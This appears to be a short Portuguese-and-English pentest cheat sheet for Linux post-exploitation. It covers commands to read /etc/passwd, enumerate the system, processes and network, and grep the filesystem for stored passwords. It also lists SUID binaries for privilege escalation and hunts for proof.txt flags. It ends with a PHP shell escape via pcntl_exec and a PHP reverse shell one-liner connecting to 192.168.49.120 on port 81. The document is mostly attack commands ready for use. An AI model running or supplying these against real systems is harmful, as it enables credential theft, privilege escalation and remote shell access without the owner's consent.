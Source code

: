     cat /etc/passwd

### Hostname

    hostname
    
### Informações a respeito do sistema

    cat /etc/issue
    
    cat /etc/*-release
    
    uname -a
  
    cat /proc/version
  
### Enumeração de processos

    ps axu
    
### Network information

    ip a
    ifconfig
    route
    routel
    ip route
    
    netstat -napl
    netstat -naptl
    
    ss -anp

### SensitiveFileContent

    grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
    
    
Nesse caso e interessante considerar que o diretorio que busco as informacoes e um diretorio de configuracoes de aplicacoes '/etc':

    grep --color=auto -rnw '/etc' -ie "PASSWORD" --color=always 2> /dev/null
    

### Enumerate SUID files

Com isso podemos executar o arquivo (caso seja um executável) conforme a permissão do dono do arquivo. Ou seja, se o dono do arquivo for root e o SUID bit estiver definido para o binário, podemos realizar a escalação de privilégio.

    find / -perm -u=s -type f 2>/dev/null
    find / -name proof.txt
    find C:/ -name proof.txt
    
    /usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-i']);"
    
    php -r '$sock=fsockopen("192.168.49.120",81);exec("/bin/sh -i <&3 >&3 2>&3");'
    